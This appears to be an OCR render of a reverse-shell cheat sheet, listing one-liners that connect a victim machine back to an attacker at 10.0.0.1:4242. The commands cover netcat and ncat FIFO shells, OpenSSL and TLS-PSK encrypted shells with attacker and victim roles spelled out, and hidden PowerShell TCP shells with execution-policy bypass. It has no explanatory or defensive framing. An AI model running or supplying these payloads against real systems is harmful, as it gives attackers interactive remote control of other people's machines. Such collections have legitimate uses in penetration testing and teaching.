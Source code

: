 ## Netcat BusyBox
```
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.0.0.1 4242 >/tmp/f
```

## Ncat
```
ncat 10.0.0.1 4242 -e /bin/bash
```
### User Datagram Protocol
```
ncat --udp 10.0.0.1 4242 -e /bin/bash
```
## OpenSSL
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
```
### Ncat
```
ncat --ssl -vv -l -p 4242
```
### Remote Host
```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```
TLS-PSK | Does not rely on PKI or self-signed certificates
```
# generate 384-bit PSK
# use the generated string as a value for the two PSK variables from below
openssl rand -hex 48

# Server (Attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT

# Client (Victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE
```

## Microsoft Windows Powershell
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1", 4242); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()
```
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1', 4242); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()"
```
```
```